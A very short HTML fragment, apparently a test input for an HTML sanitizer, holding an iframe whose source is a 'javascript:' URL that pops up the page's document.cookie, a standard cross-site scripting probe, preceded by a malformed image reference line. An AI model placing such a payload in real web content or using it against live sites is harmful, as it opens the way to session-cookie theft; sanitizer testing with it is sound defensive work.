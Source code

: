 <div style="white-space: nowrap;">
  <iframe src="javascript:alert(document.cookie);"></iframe>
</div>